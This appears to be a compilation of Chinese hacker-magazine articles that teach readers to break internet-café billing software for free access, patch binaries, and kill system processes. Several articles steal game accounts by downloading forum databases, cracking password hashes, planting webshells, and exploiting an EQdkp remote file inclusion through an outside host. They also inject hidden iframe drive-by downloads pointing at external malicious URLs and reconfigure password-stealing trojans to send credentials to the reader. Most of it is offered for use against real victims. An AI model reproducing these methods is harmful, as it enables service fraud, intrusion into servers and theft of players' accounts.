也可以不用破解限制，直接点击“在线下载”选项，在下载地址中输入工具的下载地址链接，指定保存路径，点击“开始”下载按钮即可绕过限制进行下载。下载完毕后，可以点击“运行文件”按钮运行下载文件。

## 七、小议万象2006的网吧限制功能

其实万象 2006 的限制管理功能还是很强的，但是留在桌面托盘区的几个看似无关紧要的小图标，让我们得以成功突破了它的限制。在这次网吧破解过程中，最主要的还是利用了“帮助与支持中心”。在帮助与支持中心中，可以使原来被隐藏的工具现形，成功调用运行各种系统工具和程序。

> **在“帮助与支持中心”中也可破解网吧限制**

无论是什么网管软件，基本上都在托盘区留下了几个图标。除了时间与日期外，还有一个“高亮”小图标。双击该图标，打开音量调节对话框，点击菜单“帮助”→“帮助主题”命令，可以打开音量控制帮助主题。点击帮助主题中的“工具栏按钮”选项→“Internet 选项”，可以打开 IE 选项设置对话框。点击“Internet 临时文件”中的“设置”按钮，在弹出对话框中点击“查看文件”按钮，可以打开 IE 临时文件夹，间接跳转并能跳到 C 盘根目录下，进入任意文件夹中。另外，也可以在音量帮助主题中点击“选项”→“主页”，跳到帮助文件主页，在左边窗口中可以看到“蓝色任务”帮助链接（图13）。点击该链接就可打开 Windows XP 的帮助和支持中心，依照前面的方法破解即可。

万象 2006 的限制功能应该说还是不错的，但是硬盘隐藏得不是太好，虽然通过 WinRAR 看不了隐藏的硬盘，在 RealPlayer 的浏览器中也无法浏览，但是点击“我的文档”中的“示例图片”可以直接跳到 C 盘中。而且在任意的文件打开/保存对话框中，虽然不能直接浏览硬盘，但是只要输入路径直接回车，就可以显示硬盘指定路径中的内容了（图14）。另外，笔者发现，虽然万象 2006 中提供了硬盘保护功能，可以保护指定文件夹和文件，让用户无法下载保存或修改某些文件，但是在 IE 临时文件夹中，用户是可以自由下载保存文件的。此外，Windows XP 中的“Command.com”命令可以说是……它是不被各种网管软件限制的，只要能调用这个命令，就可以浏览隐藏的硬盘，任意下载运行程序或者是结束当前进程。……

## 花不完的1元钱

泰狼@[H4ck.cn]&[EST] cracker 来到网吧


crack 在生活中无处不在，下面是我在网吧破解万象网吧管理系统的详细过程。该方法可以让你只花 1 元钱实现上网不限时……

本地设置密码验证，从而任意修改本地信息（主要是本地管理密码），然后结账下机……再用管理员密码登录进行免费上网……


本文主要思路是：crack 掉万象软件中的本地设置密码验证……


想一想，当我们注册软件时输入错误注册码的时候不是也会有这样的提示吗？而最常用、最简单的办法就是把它“爆破”掉。打开 OllyICE 加载 `C:\WINDOWS\system32\CSetup.exe`……在代码中查找错误提示信息并修改跳转指令（如将 `je` 改为 `jne`）……

## 网吧黑客

右键你要修改的指令，选择“汇编”（图8）。


图5


图10


图11

这时会弹出另一个窗口，在这个窗口中如下操作：右键选择“保存文件”（图12），将文件保存为“TIT.exe”，然后就可以关闭 OllyICE 了。


图12


图6


图7


图8

在弹出的汇编窗口中进行指令的修改，也就是将“je”改为“jne”，不过要注意的是：不要选择“使用 NOP 填充”，点汇编（图9）。


图9

修改完成后，被修改的指令会变成红色。该保存了，保存的方法是：在代码窗口右键选择“复制”中的“全选”（图10），当全部代码选中后再右键选择“复制到可执行文件”中的“选择”（图11）。

运行 TIT.exe 随便输入密码就可以进入系统设置界面了。在系统设置中选择“密码”选项（图13）。


图13

在其中的“修改计算机解锁密码”中对密码进行修改，完成后点“确定”。如果修改成功任务条上会有提示信息（图14）。也就是说万象的管理密码已经被我们修改成功了。


图14

剩下来的就是点击“结账下机”，这样服务器上的计费时间就停止了，会员卡上的金额就不会再减少了。当“结账下机”后出现会员登录界面，这时再使用刚才修改过的管理密码进行登录。总之，现在可以无忧无虑地免费上网了！

（本文所涉及到的 OllyICE 和 TIT.EXE 已收录到光盘中）

【小编乱语】将 cracker 技术应用于破解网吧的管理软件，以实现免费上网。这项实验展示了一个全新的破解思路，也从另一个方面说明了 cracker 技术的作用及重要性。当然，在实际的网吧里很少会自带 OllyICE，小黑们也不太可能都学会破解，所以大家有那份下载 OllyICE 的时间，还不如把作者提供的 TIT.exe 放到万象的安装目录运行并破解。不过小编弱弱地提醒一下，可别因为贪小便宜而被管理员抓到丢了面子啊！

### “老猫”管理系统的崩溃

100%纯情男生

这天，来到网吧上网，发现已经改用实名制上网了，保护青少年嘛！不管了，办了一张卡，坐下，开机。网吧里居然不知道什么时候更换管理系统了！兴奋 ing，我脑子顿时只有一个字“破”。

我左点点右点点，突然发现腾讯大哥的浏览器可以开启 Internet 选项，好欢喜！难道这个管理系统那么不堪一击？在 Internet“常规”设置项的 Internet 临时文件夹“设置”中，我点击“查看文件”成功地打开了系统的临时文件夹（图1）。可千万不要小看这个临时文件夹，如果可以复制出文件，就能通过重命名将文件改成 BAT 文件。我发现里面的文件可以拖动（这个细节很重要，我在后面要用到），于是又点击“查看对象”打开了 Internet 的对象文件夹（图2），可是无论我怎样拖动和使用 Ctrl+C（复制快捷键）、Ctrl+V（粘贴快捷键）就是不能将文件复制粘贴过去，看来这个地方不行。

（图4）那就来看看文件夹可写吗？于是我重新打开 Internet 临时文件夹，可是无论我拖动和用 Ctrl+C、Ctrl+V 还是不能将文件复制粘贴过去。看来，这回碰到难题了！


图1


图3


图4


图2

我又是一阵乱点！发现腾讯大哥的传输文件设置没有屏蔽哦（“管理 Cache 目录”，可以打开文件夹），我输入“C:\WINDOWS\SYSTEM32\”，可是居然禁止打开！试试桌面看看？于是我便按照路径输入（图3），咦，打开了！这时我突然想起有篇文章写过使用 Windows 系统的帮助程序来破解管理系统的，于是我满怀希望地按下了 F1，郁闷，这个组件居然被删除。

唉……先来听听歌，缓解一下悲伤的心情吧。打开我最爱的千千，居然有了意外的发现，音乐文件竟然是保存在网络文件夹上的（图5）。

我立刻想到既然腾讯大哥能够打开桌面，那是否也能打开网络文件夹呢？二话不说，在 QQ 的“传输文件设置”中输入路径，竟然真的打开了（图6）。不愧是腾讯大哥，真是帮了我一个大忙啊！胡乱找了一下文件夹里的东西，居然发现了网络快车（图7），这网管也太不负责了。


图5

## 网吧黑客


个修改后的 BAT 文件，命令提示符就会出来了（图10），下面的大家就知道该怎么做了吧（编注：大家可以参考一下《让“时间”来破解万象2006》一文中所使用的方法来下载精锐网吧辅助工具来进行更进一步的破解）。只要多想，就没有什么不可以的！图11是我破解后的截图。


本来这篇文章到此就可以结束了，因为我已经突破了无法访问文件夹的限制了，但是我想想这也未免太简单了，要是网管没有存放网际快车呢，岂不是没辙？太对不起读者了。于是我又找到了另外一种破解的方法。前面我说过如果可以复制出文件，就可以通过重命名将文件改成 .BAT 文件，我使用的就是这个方法。首先找一个能够写的文件夹，可以试试重命名，如果文件允许重命名，就证明这个文件夹能够写。找一个有扩展名的文件（图8），把它复制到可以写的那个文件夹里，然后使用 F2 重命名，我命名为 CC.BAT，这个文件就变成 BAT 文件了！打开一个记事本，把 CC.BAT 文件拖进去就可以编辑了，在其中写入命令 `call cmd.exe`（图9），然后保存，双击打开这个修改后的 BAT 文件……


### 破解网吧限制也有新玩法

无敌小龙

破解网吧限制的方法有很多，网上也有一些专门破解网吧限制下载的网站。想拥有一个属于自己的破解下载限制的网页吗？那么就跟我来吧，我教大家如何制作两种“下载网页”。

#### 一、ActiveX 的神话

ActiveX 的好处就是只要你能打开 IE 就能下载（浏览器的安全设置允许 ActiveX，或你可以更改安全设置）。我们要用到的软件是 TegoWeb，TegoWeb 通过 ActiveX 把软件转化为可以在你主页里直接执行的程序，安装完毕后运行 TegoWeb。

- 1. 在目标目录中选择一个包含有下载程序的目录（目录要事先建立好，并且在目录中存放了一个可下载的软件）。在网络地址框中输入一个主页空间地址，两个输入框内容必须修改，否则无法正确生成目标文件（图1）。
- 2. 因为目录中只有一个可执行文件，所以使用默认设置即可（图2）。
- 3. 这一步是选择要运行的程序，示例中直接下一步（图2）。
- 4. 在上方栏中填写上传空间地址与 ActiveX 所在默认地址，并按需改成自己的空间路径（图3）。
- 5. 下一步通常无需更改，直接使用默认值即可（图4）。
- 6. 最后一步修改网页名称、标题和程序扩展名，点击“完成”后生成相关文件并上传，访问 down.htm 后可触发下载（图5）。


## 网吧黑客


图6

#### 二、HTML 显奇招

制作过网页的朋友应该很熟悉 `` 这个标签，它可以美化页面，给访问者以视觉上的冲击。其实这个标签还可以用来突破下载限制……程序并不区分是否为 `.exe` 文件还是正常图形格式文件，这就为突破网吧下载限制带来了希望……


图7


图8

现在我们来看一下 `` 标签的具体运用：打开记事本，输入以下内容：

```html
<html>
<body>
软件正在下载中

</body>
</html>
```

另存为 a.html，然后运行，我们看到提示“软件正在下载中……”，打开文件菜单，选择“另存为”（图9），保存类型选择网页（.htm 或 .html）格式，然后保存。


图9


图10

来到保存的文件目录，我们会发现多了 `.files` 文件夹和 a.htm，打开文件夹，就会发现要下载的文件已经安静地躺在那里了（图10）。有了以上两招，我们也可以制作属于自己的突破下载页面了。

#### 电脑老是跳出恶意网站怎么办

最近遇到不少朋友电脑老是跳出恶意网站……这里介绍一款恶意软件清理助手 RogueCleaner。运行后点击“开始检测”先检查电脑上安装了哪些恶意软件，然后点击“一键清理”即可处理。若仍有弹出窗口，可考虑使用 HijackThis（该工具较复杂，建议在有经验的朋友指导下使用）。


### 冰刃 VS 万象 2004

rainbird

在以前的杂志上曾经介绍过不少关于万象被破解的文章，但大多数都需要一定的系统知识才能使用，怎样才能让像我一样菜鸟们的菜菜鸟也能体验一下自由的感觉呢？经过我百般的尝试终于发掘出一菜招，不敢独享，特拿来供大家测试。

记得早期的万象客户端是把密码放在注册表里的，而现在的万象 2004 的客户端通过新建立一个文件来存放密码，这个文件就是 mcfer.dat，通常是在 system32 目录下的。因为该文件正在使用，直接删除会提示文件被占用，无法删除。此时就可以让冰刃出场了，手起刀落，干掉 mcfer.dat。接着登录万象的管理系统，不用输入密码，直接回车就可以进入，如图。

接下来教大家两种免费上网的方法：

- 方法一：把“协议设置”的“远程端口”和“本地端口”都改掉，改成什么随便。注意下面一项“每 N 分钟检测与服务端的连接”千万不选中（现在才明白以前为什么直接删 IP 失效后，却被老板锁定，原来是这儿搞的鬼呀 ^_^）。
- 方法二：看到“自动登录”那一项了吗？那是登录本机的帐号和密码，有了它我们下次就可以直接登录了。到网上下载一个 aio，然后在命令提示符下切换到存放 aio 的文件夹，输入 `aio -unhide`，把鼠标移到星号那儿，密码就会显示在命令窗口里了。

以上介绍的方法在大多数万象 2004 + XP 系统环境下测试通过，大家可以放心使用，不过千万要注意自己的人身安全哟！（本文所涉及到的冰刃和 aio 已收录到光盘中）


### 诠释破解万象 2004

相信一定有许多菜菜经常在网吧上网，也相信一定都听说过万象网管软件吧！在我们这儿的网吧差不多都是使用的万象网管软件，特别是万象 2004（虽然吉胜已经开发了万象 2006，但是我们这儿目前还很少有网吧使用的）。像我们这些穷菜鸟，最多也就是在网吧里边上网边看 X 档案，边看 X 案边破解网吧管理软件，下面我就给大家介绍一些自己总结出的破解经验。

#### 一、秒杀万象 2004 客户端

有经验的泡吧菜鸟们都知道万象 2004 有一个特点：一旦结束其客户端，系统就会重启。而系统重启了，也就等于我们白干了。我们要想实现免费上网的话，就要实现结束客户端的同时不能让系统重启。经我在网上查找资料得知 Windows 系统中有两个重要的进程，分别为 SMSS.EXE 和 WINLOGON.EXE，它们管理着系统的登录、重启、关机等（其中 WINLOGON.EXE 里存有用户的登录密码，那些密码查找软件就是利用的这个原理）。要是我们可以结束这两个进程，然后再结束万象的进程，就可以免费上网了，但是从系统的任务管理器是无法结束系统内核进程的（图1），就连 XP 系统自带的 TASKKILL.EXE 也无能为力（图2）。

我们可以使用大名鼎鼎的 ICESWORD（冰刃）了，它不仅可以终止重要进程，还可以删除重要文件和修改注册表等等。我们用它来结束这两个进程，先结束 SMSS.EXE，再结束 WINLOGON.EXE 的进程（结束这两个进程要注意顺序，否则会意外重启，如图3），然后再结束 CLSMN.EXE（万象客户端）的进程，现在我们就可以免费上网了！


自解压的结束万象进程的工具，双击运行后就可以达到秒杀万象的目的了（图4）。

#### 二、卸载万象 2004 客户端

我们利用上期杂志中蔡妮介绍的方法来爆破万象，然后登录管理界面后就可以卸载客户端了。不过直接卸载的方法我也找到了。万象客户端程序在安装目录（%SYSTEMROOT%\SYSTEM32）下的 wxUninstall.ini 文件里记录着万象安装的文件，卸载时也需要它（图5）。


其中的 Uninstall.exe 文件引起了我的注意，经过再三分析，发现它是万象客户端的卸载文件。我双击运行，但什么也没有显示，看来吉胜给它做了限制。


既然从外面没有发现，那我们就从里面下手。首先使用 PEiD 查壳，发现该文件未加壳，于是使用 W32DASM 载入，点击“PE 信息”→“字符串参考”，在查找结果中的一个字符串值“QWERTYUIOPASDFGHJKLZXCVBNM”很特殊（图6）。

它就是限制 Uninstall.exe 运行的罪魁祸首。新建一个 Uninstall.exe 的快捷方式，在“目标”后面加上“QWERTYUIOPASDFGHJKLZXCVBNM”，运行快捷方式，卸载的对话框终于出来了（图7）。


不过，在卸载前还是要先结束 SMSS.EXE 和 WINLOGON.EXE 的进程，不然一会儿系统又要重启了。

> （文章中涉及到的工具 ICESWORD、制作好的结束万象进程的自解压文件、W32DASM 已收录于光盘中）

### 看菜鸟来破解学校机房收费系统

我们学校机房的收费系统使用的是 HR，其图标如图1所示，唯一让我受不了的就是下课时间一到系统就会关机，甚至于我连许多重要的东西都来不及保存，更何况被人强行关机是很没面子的事儿，所以我就起了破解它的念头。


我首先想到了使用智能 ABC 漏洞（输入 v1Delete 后回车）来关掉收费机，结果却跳出了错误提示框。接着我又尝试使用防火墙切断客户机与主机之间的“联系”，但是系统被锁定了，这个方法也没有成功。

最后我只好决定和它来硬的——干掉 HR 的进程。打开任务管理器，却发现任务管理器被禁用了（图2）。想通过注册表来解除任务管理器的锁定，可连注册表也被锁定了（图3）。怎么办呢？来写段 JavaScript 吧，新建一个记事本，在记事本里输入如下内容：

```html
<script type="text/javascript">
var wsh = new ActiveXObject("WScript.Shell");
var reg = wsh.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\\DisableTaskMgr", 0, "REG_DWORD");
alert(wsh.RegRead("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\\DisableTaskMgr"));
</script>
```

将其保存为 htm 格式，然后打开，我们会看到一个安全提示，直接点击“是”（如图4）。紧接着又会弹出一个提示，里面只有一个“0”，点确定。


再看看任务管理器已经可以打开了。直接结束 hrclient.exe 的进程（我的屏幕直接就被锁定了，又出现了计费窗口，看来有守护进程）。下面该换工具了，向大家介绍一个进程管理工具——Windows 进程管理器。运行后按住 Ctrl 键，选择所有可疑进程，点击右键并结束进程（图5），系统托盘的 HR 图标已经没有了（图6），现在我们就不怕被关机了。

> （本文所涉及到的解锁任务管理器网页和 Windows 进程管理器已收录到光盘中）

### 揭开网游木马后门

石头

现在的网游木马大多数都有后门，尤其是网上发布的某某修改版。我们辛苦种下的木马，到头来都是在“学雷锋”，我想大家肯定不愿意做这些损人不利己的事情。拿起手中的武器，开战吧。

网游木马的后门多是接收文件的网址，有邮箱这种情况不太常见。一般这个地址都保存在木马生成器内，生成成品后端时加入后门。我们就是要找出后门，再删除或修改。随着制作木马技术的提高，有的木马把后门地址加密存放，这对于我们这些菜鸟来说就没有办法了，又不会反编译。不过对于那些明文存放的木马，我们还是能手到擒来的。

下面我就以一款天堂 2 木马为例，教大家怎么找其中的后门。首先当然是对木马查壳，打开 PEID 选择要查壳的木马，发现木马被加了 UPX 的壳（图1）。


图1

幸好这是种常见壳，有专用的脱壳工具。我使用的是 UPX Shell，第一次执行程序时，软件会让你选择 upx.exe 文件的位置，这个文件就在同目录下。其他选项默认就可以了，如图2。


图2

然后在 UPX Shell 中打开要脱壳的软件，点击解压就 OK 了（图3）。现在文件脱了壳，可以直接用 WinHex 查看文件了。启动 WinHex，打开天 2 木马生成器。点击“搜索”选择“查找文本”，输入“http”（网址的开头，也可以用别的特征码），点击“确定”查找（图4）。


图3


图4


图6

如果不是我们想要的内容，按 F3 继续查找。终于来到了我们辛苦寻找的后门面前，如图5。别客气了，赶快把这个网址改掉吧。我们改成自己的后门时，最好和那个网址的长度差不多（图6），最后保存文件。


图5

一个“自己”的网游木马就修改好了，你可以用资源修改工具装饰一番，再给它加个壳发布到网上，就坐等收密码吧。（本文中所涉及到的 PEID、UPX Shell 和 WinHex 已收录到光盘中）

> “至爱编辑部”：网游江湖这个栏目已经开办了三期了，一直是我在唱独角戏。江湖嘛，就应该是你方唱罢我登场。大家有什么意见或好的选题请到论坛或通过我的 QQ635223938 来一起讨论，菜鸟群众的力量是伟大的嘛。

### 看菜鸟如何玩“传奇”私服

罗秉瑾 [518℃]


传奇这款网络游戏想必大家都曾经玩过吧，其中也有不少人玩过传奇的私服吧。在传奇私服里，像我们这样的菜鸟只能慢慢地升级，慢慢地泡时间。有没想过自己来刷一次装备，修改一下自己的等级，当一次 GM 呢？今天，我就带大家来体验一下入侵传奇私服数据库，修改数据的乐趣！

为了公平起见，我新建立了一个 0 级的武士，叫“冰舞 518 度”，如图1，一会儿就要修改这个 ID 的信息。


先来得到对方服务器的控制权限吧，也不用太大的权限，只要能下载/上传文件就行了。来到它的官方网站，在右边发现了一个论坛入口，发现是 DVBBS7.0 的“闽网”论坛，但是注册人数才两个人；我使用默认用户名 admin，默认密码 admin888 进行登录，没能登录成功。不过，对方的数据库默认地址 `/bbs/data/dvbbs7.mdb` 却没有更改，于是我轻松地下载了对方的数据库，如图2。接下来就简单了，直接使用辅助数据库浏览器打开对方的数据库，到 www.cmd5.com 这类在线破解网站破解其中加过密的 MD5 密码就可以了。我利用破解出的帐号密码，传了一个图片上去，然后通过备份数据库的方法得到了一个 ASP 站长助手木马。


注：关于利用闽网论坛数据库地址下载数据库，然后利用 MD5 在线破解网站破解管理员密码，上传图片，再利用备份数据库的方法得到 WEBSHELL 的方法，详见黑客 X 档案前期杂志或《黑客零起步》一书，本文的重点将是介绍怎样修改查询数据库与获得 GM 的管理帐号。

来了解一下传奇的目录。传奇 2 的数据库目录大都是在 `X:\mirserver\Mud2\Logsrv\IDDB`（其中存放的是一些杂乱的数据，如坐标什么的）与 `X:\mirserver\Mud2\DBSrv200\FDB`（这个是人物的数据库，里面存有人物的帐号信息，十分重要）。这个传奇私服的目录是在 `D:\mirserver\Mud2\` 下的，分别来到这两个数据库目录，可以看到，在 `D:\mirserver\Mud2\Logsrv\IDDB` 中有 2 个文件，分别为 Id.DB 与 Id.DB.idx，如图3；而在 `D:\mirserver\Mud2\DBSrv200\FDB` 中有 3 个文件，分别为 Hum.DB、Mir.DB 与 Mir.DB.idx，如图4。我们把这 5 个文件全部下载下来，千万不要少了。

将 mirserver 空文件（该压缩文件已随当期光盘收录）解压缩到 D 盘，得到目录 mirserver，然后把刚才下载的 Id.DB 与 Id.DB.idx 这两个文件放到本机的 `\mirserver\Mud2\Logsrv\IDDB` 空文件夹中，将 Hum.DB、Mir.DB 与 Mir.DB.idx 放入 `\mirserver\Mud2\DBSrv200\FDB` 空文件夹中。接下来，运行心意数据通 1.9（运行这个程序需要安装 BDE 数据库引擎工具，大家可以到网上下载，地址：http://www.rescn.net/Software/Catalog16/7.html）。

在湘南服务器系统登录对话框中输入 `D:\mirserver\`，如果下载的数据库类型为 BDE 数据库，那就填写好库别名；如果为 Excel 版的服务器，则在“Excel 版服务器”前面的框里打上勾就可以了，如图5、图6。

点击登录，过一会儿，登录就成功了，如图7。我们来到角色资料这一栏，选择我的 ID321321，然后选择角色名冰舞518度，就得到了我们当前的信息，如图8。另外，我们还可以在 ID 资料这一栏中查看玩家的密码、姓名、身份证、出生日期等资料。


可以在这里修改自己的数据，我将自己改成了 125 级，然后来到装备信息这一栏里，给自己弄了一身极品装备，还弄了一个麻痹呢，最后保存就可以了。大家还可以在里面添加/删除会员，进行物品转移等，最后都要记得保存一下修改完的数据库。


我们将修改后的 Hum.DB、Mir.DB、Mir.DB.idx、Id.DB、Id.DB.idx 这五个数据库文件传到服务器原来的文件夹中，直接进行覆盖就可以了。速度一定要快呀，否则弄得别人都玩不了游戏可就不好了。

现在，让我们重新登录一下看看，如图9、图10。哈哈，羡慕吧。装备与等级已经焕然一新，狂 PK 吧，这下子连守卫也奈何不了你了。

再来看如何获得 GM。一般的 GM 数据都会放在 `\mirserver\Mir200\Envir` 目录里，里面的文件有很多，都是使用记事本文件来保存的，其中有各种怪物的信息、商人的信息、物品的信息等……我们可以将其下载下来，修改完后再上传上去。里面重要的是 AdminList.txt 这个文件，里面有 GM 的列表，如图11。


我们可以在下面添加一个“*”号，然后打上自己的角色名，上传覆盖原来的文件，我们就是私服的 GM 了。当然了，我们还可以根据现有的 GM 账号来登录，给自己刷东西，呵呵。我给大家提供了一些 GM 常用的命令，也收录在了当期的光盘中，大家可以试着使用这些命令来控制整个私服。

> （本文所涉及到的 mirserver 文件、心意数据通1.9 和 GM 的常用命令已收录到光盘中）

## 冒险岛如何“做号”致富帐号

黑暗中的行者


魔兽世界（WOW）这款游戏自从去年一推出就风靡全球，至今已有无数玩家荣登 60 级宝座，满身是极品装备，腰缠万贯。还在摸爬滚打、一步一步升级的你是不是羡慕得直流口水呢？今天就让我们一起来玩转公会论坛，批量获取 WOW 帐号，让我们这些菜鸟也风光一回。

很多游戏论坛、公会论坛使用的都是动网论坛，在今年第 8 期的光盘中曾经收录过动网大扫描这个工具，我们可以用这个工具来扫描这些论坛是否存在漏洞。在关键字处填上诸如“inurl:wow Powered By Dvbbs”、“intitle:公会 Powered by Dvbbs”之类的词来扫描魔兽世界有关的网站（也可以使用挖掘鸡来扫描）。泡一杯茶回来，发现扫描到了一些论坛的数据库，如图1。


## 网游江湖

| UserID | UserName | UserPassword | UserEmail |
|---|---|---|---|
| 162 | HYX2672 | 53dc3b60f2d40cd4 | angel_gj520@163.com |
| 532 | i47I0xe | f6bca45e82ed7f68 | 5568@rriv.com |
| 747 | ibby25pl5 | 107bb6fa6d6cad19 | gztf087k2.com |
| ... | ... | ... | ... |

图2

打开其中一个论坛的链接，发现它是XX公会论坛，有700多会员，把它的数据库下载下来使用Access打开，如图2。

按照许多菜鸟的习惯，他们在论坛的账号和密码与他在魔兽的账号密码是一样的，所以我们由此就可以获得部分会员的WOW账号。但是动网论坛的密码是使用MD5加密的……将结果保存到result0.htm中，最终跑出了200个密码，然后再花一段较长时间去跑数字和字母，可以破解出大部分密码了。


图3

我通过论坛的数据库获得了部分会员的账号，不过我觉得这样不够爽，下面来进一步扩大战果。刚才使用MD5破解工具破解了大部分会员的密码，并且幸运地破解了管理员的前后台密码……现在我来说一说如何配置生成木马，我使用的是MS06-14网马生成器和最新版的魔兽占有者III。

魔兽占有者III改PIN码版，这个木马能够获取各个服务器的账号、密码和区号并能破PIN码，用ASP收信并设了密码，安全性较高。首先申请一个ASP空间（支持ASP和Access数据库），假设地址是http://www.xingzhe.com，在空间里新建目录如wow，然后把本地“破PinAsp”目录下的所有文件都上传到wow目录下……


图4

最后来看一下进入动网后台后如何挂马，首先使用刚才破解出来的管理员密码登录后台，进入基本设置页面，来到“论坛版权信息”处，看到后面的框中有很多代码，我们在这些代码后面加上挂马代码即可，比如加上 `<iframe src=http://d.thec.cn/seandxy/hkor.htm width=0 height=0></iframe>`，填好以后点击“提交”使设置生效。


图5

本文所讲的方法是从最简单的论坛数据库下手的，我们也可以使用Cookies欺骗、最近的千金漏洞利用等方法得到论坛的控制权，然后在上面挂马……当然你也可以用这些方法去黑你喜欢的网游论坛。

（本文所讲涉及到的动网木马植入，传说中的魔MD5、魔兽占有者III改PIN码版和MS06-14网马生成器已收录到光盘中）


### 把别人的跑跑卡丁车都变成牛牛

石头

早就听闻跑跑卡丁车在国内玩得非常流行，可是我一直沉迷在DDO（龙与地下城）的世界中，无缘相见。经不住虫虫与欠钱的不断洗脑终于败下阵来，投靠到跑跑卡丁车的俱乐部当中。游戏刚上手，技术太次，每次比赛别说想超过虫虫与欠钱，就连编辑部的Bifrost姐姐跑得都比我快，真是太丢面子呀……


先向大家说明一点，“跑跑牛车”中的“牛”不是指慢如蜗牛的牛，而是牛×的牛，不要误会。大家都知道外挂是要随着游戏的更新而更新的，光盘中收录的外挂可能当读者朋友们拿到时已经不能使用了，我推荐两个网址：http://www.8yw.net 和 http://www.chntin.net，可以在这上面找到最新版本的破解器。


跑跑牛车的初始界面如图1所示，点击“启动破解外挂”按钮（如图2）。在游戏账号处输入你的账号，点击“登录”，此时外挂会要求你找到KARTRIDER.exe（跑跑卡丁车的主程序）的路径。等外挂认证成功后，就能登录游戏了，如图3。

- 无限连续加速（200%速度）
- 转弯惯性降低150%
- 部分道具攻击效果无效（鬼头、飞碟、香蕉皮除外）
- 撞车效果无效

如果你想在游戏中使用外挂，可以按F10启动外挂；如图4，可以修改左转和右转属性；按“空格”为加速，关闭外挂直接点击“x”。图5就是使用加速在起跑前的情景，图6则是首次使用外挂跑了个第一。文末提醒：使用外挂存在封号风险，请谨慎使用。


## 看某著名如何血洗魔兽全国

石头

在第9期黑客X档案的“网游江湖”栏目中曾向大家介绍了如何利用动网论坛默认数据库入侵并在论坛挂马盗号，其实这种方法不仅针对WOW（魔兽世界），对别的网游也同样有效。今天我给大家介绍一个全新的专门针对WOW的盗号方法，那就是入侵EQdkp系统。


DKP是屠龙积分的缩写，主要用于工会分配物品，一般工会中都有专人负责记录DKP，统计DKP的系统自然也就应运而生。EQdkp是一款开源的PHP系统，不过1.3.0及以下版本存在着一个相当严重的远程文件包含漏洞。主要是dbal.php文件中对用户提交的eqdkp_root_path参数缺少过滤，如果指定远程服务器上的任意文件作为包含对象，就可以以WEB权限执行任意PHP代码。


因为我们入侵的是一个工会的DKP系统，所以在这个系统上挂马盗号的话，对一个工会可以说是毁灭性的打击，还请大家手下留情！好了，小菜们，操家伙，看我如何去血洗魔兽世界中的工会，闹它个天翻地覆吧！

对于这种入侵，我们还是把锁定目标的任务交给Google、百度等搜索引擎。目前大多数使用EQdkp的都是1.3.1和1.3.0版本，远程文件包含漏洞发生在1.3.0版本以下，所以我们可以在百度中搜索“by EQdkp 1.3.0”。从搜索到的网站中打开一个工会DKP网站，在DKP网站目录后添加“includes/dbal.php?eqdkp_root_path=http://www.sagi.net.cn/php.txt?”链接进行提交。


在sagi的服务器上，没有空间的朋友可以直接使用这个链接。如图1所示，这个系统已经补上了漏洞。我们再换一个网站进行检测，把链接复制过去提交，如图2，木马被成功地执行了。这个PHP木马是英文的，如果感觉不方便的话，我们可以使用这个木马的上传功能（图3）上传一个中文的PHP木马（图4）。

就这么简简单单地得到了一个webshell，可以挂马了。先来配置一个魔兽木马，我以魔兽占有者Ⅲ破PIN码版为例。把收信程序上传到网上空间，然后打开木马填写收信地址（login.asp的链接），自定义安装目录、文件名和注册表启动项，生成木马（图5）。

网马我们就使用MS06-014，把木马上传到空间，在网马生成器中填写木马下载地址，生成网马然后加密（图6）。最后把网马上传到空间中，记下网马地址留作挂马。

挂马的方法有很多，简单的就是在主页上挂马，还可以在数据库连接文件中挂马或JS挂马。登录我们刚才得到的webshell，编辑主页文件：index.php，在文件尾部加上如下代码：`<iframe src=http://www.vvmm.com/mmm.htm width=0 height=0></iframe>`，其中网址是你的网马地址（图7）。点击确定后，对方的主页就被我挂上马了，我们就等着魔兽世界账号送上门来吧。

可能你在入侵过程中也会发现，所入侵的主机有许多都是非Windows系统，比如图8显示的就是一个FreeBSD系统（UNIX系统中的一种）。


由于主机用户权限设置的关系，我们会发现虽然我们可以利用远程文件包含漏洞得到一个webshell环境，但却不能编辑、上传文件。对于高手来讲可以继续提权，像我等小菜就只有另选目标了。有时一个服务器上不止一个工会DKP系统，通过旁注可能也会有新的发现。

最后奉劝大家，盗号不要做得太狠，玩玩就行了。毕竟人家一个工会发展起来很不容易，尊重一下别人的劳动成果吧！（本文所涉及到的魔兽占有者Ⅲ破PIN码版和MS06014生成器已收录到光盘中）

本文与第10期中的“远程文件包含，今天你玩了吗？”在入侵方法上使用的都属于远程文件包含漏洞。通过这两篇文章，我想各位读者对于远程文件包含漏洞的应用应该也有了一个大概的认识。其整个过程，不外乎根据公布的利用格式，通过Google、百度等搜索到可替换URL格式（可以搜索版权信息总览，或者存在漏洞的文件及目录），然后利用特定的PHP文件进行测试（通常为PHP木马），如果测试成功的话，再寻找有权限写入的目录来上传自己的PHP木马并进行挂马。如果还可以通过PHP木马得到对方的shell的话，就可以继续上传本地溢出程序，尝试获取对方的root权限，控制对方的整个操作系统。

可以说，远程文件包含漏洞的利用过程是非常简单的，不需要什么特殊的工具，也不需要什么高深的知识。我们在以后的杂志中将会继续介绍远程文件包含漏洞的利用，作为目前国外最流行的一种入侵方法，也希望国内的各位菜鸟能够快快掌握，与时俱进哦！

### 游戏留言也“钓鱼”

保金星

今天玩着“跑跑卡丁车”正兴起，突然有人给我发来一则消息，说是登录即可获得2000游戏币。虽然看起来非常诱人，但以前我在X混了这么多年的经验，一眼就能辨别出这肯定是假的，但正好奇心还是让我想看看他的葫芦里到底卖的是什么药。怀着激动又害怕的心情登录了他提供的网站……进入网站后发现要求输入账号、密码和游戏区，送游戏币为什么还要输入密码呢？


图1


图2

仔细看看，上边还有一个Yahoo的广告。这是什么呢？再看域名，竟然是Yahoo的……不管了，先随便填写一个账号看看，点击“确认”，当看到“已经将访客名传送至访客名册”的时候，恍然大悟：这原来是一个访客名册，也就是填写留言的地方。我们刚刚填写的账号内容，已经被当作留言发送到了盗号人那里。

这究竟是什么东西呢？点击下面的“加入Yahoo! GeoCities”来看一下。出现了一个英文网页，在页面右边是一个使用Yahoo登录的界面（如图3）。如果没有Yahoo账号，可以点下面的“Sign Up”来申请一个。


图3


图4

